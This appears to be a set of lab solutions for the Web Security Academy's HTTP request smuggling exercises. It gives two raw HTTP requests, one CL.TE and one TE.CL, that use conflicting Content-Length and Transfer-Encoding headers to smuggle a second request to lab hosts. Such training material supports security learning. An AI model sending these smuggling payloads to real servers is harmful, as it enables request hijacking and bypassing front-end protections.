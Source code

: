 # Lab: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

```http
POST / HTTP/1.1
Host: 0a8b008b049316a1856e820000b90058.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0


GET /404 HTTP/1.1
X-Ignore: X
```

# Lab: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

```http
POST / HTTP/1.1
Host: 0ad8006f045b711180628feb00620056.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```
